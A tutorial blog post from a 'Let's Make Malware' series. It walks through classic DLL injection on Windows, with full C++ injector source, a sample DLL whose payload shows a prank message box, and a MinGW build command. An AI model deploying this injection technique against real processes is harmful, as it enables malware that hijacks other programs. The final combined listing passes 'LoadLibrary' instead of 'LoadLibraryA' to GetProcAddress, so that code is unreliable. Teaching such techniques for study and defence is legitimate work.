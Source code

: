 ```yaml
---
layout: post
title: Let's Make Malware - Classic DLL Injection
---
```


![Lets Make Malware](/assets/lets_make_malware_header.jpg)
# Preamble

This week, we will cover Classic DLL Injection. As the name suggests, instead of injecting shellcode into a process, we will be forcing a process to run a DLL of our choice. 

This technique will use many of the same Windows API functions we covered previously. We will introduce just three new ones. Those are GetProcAddress, GetModuleHandle, and LoadLibrary. Later in this series, we will see just how special those three calls are. But for now, let’s get started.

We will be using last week’s source code on Remote Process Injection and modifying it a bit. That codebase looked like this:

```cpp
#include "windows.h"
int main() {
	//msfvenom Calc shellcode
	unsigned char payload[] = {… don't trust random shellcode blobs you find on the Internet … };
	HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
	LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
	HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
	WaitForSingleObject(tHandle, INFINITE);
	return 0;
} 

```

# Change 1
The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:

```cpp
char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
```

This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    	}    
    	return TRUE;  
}
```

Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:

```cpp
#include "windows.h"
void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
			execute();
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    		}    
    	return TRUE;  
}
```

We will cross-compile this using MinGW with the following command: 

x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp

Now, that we have our DLL, we can go back to our injector executable. 

# Change 2
The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:

```cpp
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.

# Change 3

Likewise for our call to WriteProcessMemory.

```cpp
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
```

# Change 4

Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:

```cpp
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), buffer, 0, NULL);
```

To refresh, CreateRemoteThread is defined as such:

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Before we provided our buffer variable as the argument to the lpStartAddress parameter and set lpParameter to 0 as we did not need it. This time, however, we use a combination of GetProcAddress and GetModuleHandle to find the memory address of a third API: LoadLibrary. 

Our buffer variable, which contains the absolute path of our malicious DLL, is then passed to LoadLibrary as an argument forcing the remote process to run it. 

GetProcAddress will find the memory address of a function, also known as a procedure, and returns it. It is defined like so:

```cpp
FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

The first parameter is a handle to a module. Or in other words, a DLL. This is where GetModuleHandle comes in.

The second parameter is the function (procedure) we are looking for. 

GetModuleHandle does as its name suggests: returns a handle to a module.

It is defined like so:

```cpp
HMODULE GetModuleHandleA(
  [in, optional] LPCSTR lpModuleName
);
```

Its only parameter is the module name we are looking for. Many of the functions we want to use as malware developers are in Kernel32.dll. It is a special DLL because Windows loads it into every process by default.

Finally, we have LoadLibrary. This should be self-explanatory as its purpose is to load a library (DLL).

It is defined like so:

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

Its parameter is also self-explanatory. It needs the file name of the DLL we want it to load. Simple!

And that’s everything we need. Our full injector code will look like this:

# All Together 

```cpp
#include "windows.h"
int main() {
	char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
	HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
	LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
	HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibrary"), buffer, 0, NULL);
	WaitForSingleObject(tHandle, INFINITE);
	return 0;
} 
```

One thing of note is that we need to change the last parameter in our call to OpenProcess to the PID of the process we want to inject into before compiling. We will keep things simple and use notepad again. 

Now, we need to transfer our malicious DLL onto a test machine to the Windows\Temp folder. Once we have that in place (and transferred our injector executable as well, of course), we can run our injector and watch the magic happen.

And there we have it! Our DLL attached to notepad and our message box popped up.

![Message Box](/assets/dll_injected_msgbox.png)

To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.

![Verifying DLL attached](/assets/dll_injected.png)

# Resources
[MSDN: VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

[MSDN: WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

[MSDN: CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

[MSDN: GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

[MSDN: GetModuleHandle](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)

[MSDN: LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[MSDN: Data Types](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types)

[WikiBooks: Data Types](https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types)
